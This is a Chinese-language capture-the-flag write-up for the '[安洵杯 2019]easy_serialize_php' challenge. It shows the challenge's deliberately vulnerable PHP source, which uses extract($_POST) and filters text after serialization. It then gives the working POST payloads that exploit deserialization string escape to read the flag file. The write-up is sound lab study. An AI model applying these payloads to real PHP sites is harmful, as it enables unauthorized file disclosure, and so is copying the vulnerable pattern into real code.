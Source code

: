 # [安洵杯 2019]easy_serialize_php
![](<./img/Pasted image 20221119110645.png>)

---
首页长这样

![](<./img/Pasted image 20221119110705.png>)

---
点开之后是源码
```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

---
提示我们可能能在`phpinfo`中找到好东西
```php
/?f=phpinfo
```

![](<./img/Pasted image 20221119113417.png>)

果不其然发现了存放`flag`的文件名`

---
考虑到`filter`函数作用于序列化后的字符串

总体思路就是利用反序列化字符串逃逸使得`$userinfo['img']`结果为`base64_encode('d0g3_f1ag.php')`

部署到本地再加了两句

![](<./img/Pasted image 20221119212823.png>)
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:3:"abc";}
```
不得不吐槽php这语言各方面都好宽松QwQ

![](<./img/Pasted image 20221119212806.png>)

---
放靶机上跑去

url
```php
/?f=show_image
```
POST
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
![](<./img/Pasted image 20221119213410.png>)

再来一步
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
![](<./img/Pasted image 20221119213746.png>)
